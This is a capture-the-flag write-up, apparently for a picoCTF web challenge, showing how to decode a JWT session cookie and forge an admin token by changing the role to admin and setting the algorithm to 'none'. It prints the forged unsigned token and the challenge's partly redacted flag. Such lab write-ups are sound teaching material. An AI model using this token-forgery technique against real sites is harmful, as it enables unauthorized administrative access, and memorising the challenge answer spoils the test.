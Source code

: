 # Description

Description
Most web application developers use third party components <br>
without testing their security. Some of the past affected <br>
companies are:
* Equifax (a US credit bureau organization) - breach due to <br>
unpatched Apache Struts web framework CVE-2017-5638
* Mossack Fonesca (Panama Papers law firm) breach - <br>
unpatched version of Drupal CMS used
* VerticalScope (internet media company) - outdated <br>
version of vBulletin forum software used

Can you identify the components and exploit the <br>
vulnerable one? <br>
The website is running [here](http://saturn.picoctf.net:52680/). Can you become an admin? <br>
You can login as test with the password Test123! to get <br>
started.

# Solution

To start you can go to the developer tools, then application, the cookies to see the cookies for the site. After logging in with the test credentials a new JWT (JSON Web Token) cookie.

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzA5NjE3NTUzMDg4LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzA5NjE3NTUzfQ.Wqcg2Ywm6ZPT7bcEGuBs01lhvU_I3VQ2HOG7772H-eU```

The `.` is the seperator so it can be seen that there are three parts. First being the header, then the payload, then lastly the signature. Since they are in base64 it could be decoded with [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)).

Part 1: 

Base64: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9`

Decoded: {"typ":"JWT","alg":"HS256"}

Part 2: 

Base64: `eyJhdXRoIjoxNzA5NjE3NTUzMDg4LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzA5NjE3NTUzfQ`

Decoded: {"auth":1709617553088,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36","role":"user","iat":1709617553}

Part 3: 

Base64: `Wqcg2Ywm6ZPT7bcEGuBs01lhvU_I3VQ2HOG7772H-eU`

Decoded: Z§ Ù&éÓí·àlÓYa½B7U8nûïaÞ

The last part is hashed (HS256) which is why it outputs a weird value.

By taking the second part's decoded version and putting it into cyberchef to encode while changing the role from user to admin you can get a changed cookie value. For the first part you have the `alg` set to HS256 which is what creates the third part. By setting that to none we then don't have to worry about the third part and could leave it blank. So just take the first part's decoded output and change HS256 to none then re-encode with base64.

By then reconstructing and putting the parts back together you can get the full JWT cookie back with admin role. Be careful to remove any "=" padding with base64 because it is ignored with JWT tokens.

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzA5NjE3NTUzMDg4LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTcwOTYxNzU1M30.`

When you change the cookie value to the modified cookie and refresh the page you get the flag.

Flag: ```picoCTF{succ3ss_@u7h3nt1c@710...4eacf}```
